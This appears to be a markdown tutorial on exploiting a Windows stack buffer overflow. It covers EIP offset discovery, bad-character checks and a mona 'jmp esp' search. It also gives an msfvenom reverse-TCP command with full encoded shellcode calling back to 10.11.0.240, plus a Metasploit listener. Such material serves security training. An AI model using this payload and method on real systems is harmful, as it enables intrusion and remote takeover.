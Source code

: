 # Buffer overflow (BOF)

This is a step-by-step exploitng a windows application vulnerable to BOF. 

Tools:
- Download Immunity Debugger and install Mona (https://github.com/corelan/mona)
- Drop mona.py into the 'PyCommands' folder (inside the Immunity Debugger application folder).

# Create unique pattern to find offset

Create a unique pattern and feed the exploit with this to identify the exact position of EIP. In the example it will be create a unique string of 2700 chars

```
$ msf-pattern_create -l 2700
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8A....
```

Open the vulnerable applciation on Immunity Debugger and execute. Check the EIP value, in this example it shows
```
39 69 44 38
```

# Find exact string position where EIP will be overwritten

Feed the values that is on EIP register to find the offset
```
> msf-pattern_offset.rb -q 39694438
[*] Exact match at offset 2606
```
In this example it will take 2606 chars until it gets to the EIP register. For example, if we want to fill the EIP register with B's we would send this string:
```
string = "A" * 2606 + "BBBB" + "C" * 500
```

Now that we control the  EIP we can manipulate the program flow. We can make the program execute a shell code that we want

# Size of shellcode
Keep in mind that sometimes we need to care about the Shellcode size. 
ShellCode for a reverse _tcp is about 350 and 400 bytes of space

# Finding bad chars Bad Chars
Buffer Overlow when using string copy: 
- null hex code: 00 (because it flag end of the string so everything after the null byte will be ignored)
- 0x0D (return carriage)
- ax0A (line feed)

Send all chars from \x00 to \xFF and manually check in the memory dump each value if it's in the correct order.
Let's say that you look into the memory dumo and see: "\x00\x01\xB0" in this case the char after \x01 should be \x02 but we got \B0. 

It means that \x02 is a bad char, remove the \x02 from the string and send it again. Repeat the process until all bad chars are gone.

```
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
# Find modules and dlls used by a program, in this way I can try to use a DLL do JMP to my ESP
We a looking for a DLL that was compiled without ASLR, SafeSEH, NXCompat
```
!mona modules
!mona find -s "\xff\xe4" -m slmfc.dll
```

# Finding out opcode for each instructions
it makes easier to search inside the debugger for this instruction

> /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp

# Creating a shellcode
> msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.240 LPORT=443 -f c -a x86 --platform windows -b '\x00\x0d\x0a' -e x86/shikata_ga_nai
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xd9\xed\xb8\x08\x9c\xb4\xea\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x52\x31\x42\x17\x83\xea\xfc\x03\x4a\x8f\x56\x1f\xb6\x47\x14"
"\xe0\x46\x98\x79\x68\xa3\xa9\xb9\x0e\xa0\x9a\x09\x44\xe4\x16"
"\xe1\x08\x1c\xac\x87\x84\x13\x05\x2d\xf3\x1a\x96\x1e\xc7\x3d"
"\x14\x5d\x14\x9d\x25\xae\x69\xdc\x62\xd3\x80\x8c\x3b\x9f\x37"
"\x20\x4f\xd5\x8b\xcb\x03\xfb\x8b\x28\xd3\xfa\xba\xff\x6f\xa5"
"\x1c\xfe\xbc\xdd\x14\x18\xa0\xd8\xef\x93\x12\x96\xf1\x75\x6b"
"\x57\x5d\xb8\x43\xaa\x9f\xfd\x64\x55\xea\xf7\x96\xe8\xed\xcc"
"\xe5\x36\x7b\xd6\x4e\xbc\xdb\x32\x6e\x11\xbd\xb1\x7c\xde\xc9"
"\x9d\x60\xe1\x1e\x96\x9d\x6a\xa1\x78\x14\x28\x86\x5c\x7c\xea"
"\xa7\xc5\xd8\x5d\xd7\x15\x83\x02\x7d\x5e\x2e\x56\x0c\x3d\x27"
"\x9b\x3d\xbd\xb7\xb3\x36\xce\x85\x1c\xed\x58\xa6\xd5\x2b\x9f"
"\xc9\xcf\x8c\x0f\x34\xf0\xec\x06\xf3\xa4\xbc\x30\xd2\xc4\x56"
"\xc0\xdb\x10\xf8\x90\x73\xcb\xb9\x40\x34\xbb\x51\x8a\xbb\xe4"
"\x42\xb5\x11\x8d\xe9\x4c\xf2\xb8\xe6\x4e\xf2\xd5\xfa\x4e\xf3"
"\x9e\x72\xa8\x99\xf0\xd2\x63\x36\x68\x7f\xff\xa7\x75\x55\x7a"
"\xe7\xfe\x5a\x7b\xa6\xf6\x17\x6f\x5f\xf7\x6d\xcd\xf6\x08\x58"
"\x79\x94\x9b\x07\x79\xd3\x87\x9f\x2e\xb4\x76\xd6\xba\x28\x20"
"\x40\xd8\xb0\xb4\xab\x58\x6f\x05\x35\x61\xe2\x31\x11\x71\x3a"
"\xb9\x1d\x25\x92\xec\xcb\x93\x54\x47\xba\x4d\x0f\x34\x14\x19"
"\xd6\x76\xa7\x5f\xd7\x52\x51\xbf\x66\x0b\x24\xc0\x47\xdb\xa0"
"\xb9\xb5\x7b\x4e\x10\x7e\x8b\x05\x38\xd7\x04\xc0\xa9\x65\x49"
"\xf3\x04\xa9\x74\x70\xac\x52\x83\x68\xc5\x57\xcf\x2e\x36\x2a"
"\x40\xdb\x38\x99\x61\xce";

# Waiting for a reverse shell
Open metasploit and use the same payload that was used to create the shellcode and listen for the connection.
Sometimes, listening only with Netcat is not enough

```use exploit/multi/handler```





##Methodology

1. Investigate the file
```
file
strings
```

2. Test it out - what does the program do?

3. Look at its functions in GDB

```
info functions
```

4. Look at the assembly of a function

```
disass main
disass otherfunction
```

5. Look for the flow of the program. Look for cmp

6. Set up breakpoints with hooks

```
define hook-stop
info registers  ;show the registers
x/24xw $esp  ;show the stack
x/2i $eip  ;show the new two instructions
end
```

7. Step through the whole program. Or at the breakpoints

```
si ;steps one forward, but follows functions
ni ;does not follow functions
```
